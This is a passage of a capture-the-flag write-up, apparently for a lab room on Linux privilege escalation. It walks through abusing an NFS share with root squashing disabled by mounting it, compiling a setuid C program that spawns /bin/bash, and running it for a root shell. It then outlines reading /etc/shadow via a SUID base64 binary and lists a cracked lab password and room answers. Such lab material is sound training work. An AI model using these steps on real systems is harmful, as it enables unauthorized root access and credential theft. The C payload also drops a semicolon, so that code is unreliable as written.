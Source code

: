 ### Task 11 - Privilege Escalation: NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

Check the NFS share configuration on the Debian VM:

'cat /etc/exports'

Note that the /tmp share has root squashing disabled.

On your Kali box, switch to your root user if you are not already running as root:

'sudo su'

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

'mkdir /tmp/nfs'
'mount -o rw 10.10.149.204/tmp /tmp/nfs'

From here we can create a very simple payload in c which will change the SUID and SGID bits to root

Payload:
int main()
{
	setgid(0);
	setuid(0)
	system("/bin/bash");
	return 0;
}

Now we compile the c code
'gcc nfs.c -o nfsoutput -w'

Set the SUID bit
'chmod +s nfsoutput'

Back on the target box we can see the file is there, now we run it and gain a root shell
'./nfsoutput'

Question Answers
	'3'
	'3'
	''
	'THM-89384012'

### Task 12 - Capstone Challenge

First I checked 'sudo -l' with no luck

Then I did 'find / -type f -perm -04000 -ls 2>/dev/null' which returns base64 which we can use to see files

This, we can use to access the '/etc/shadow' to gain the password hash. We can crack this and gain access to the 'missy' account
'missy:Password1'
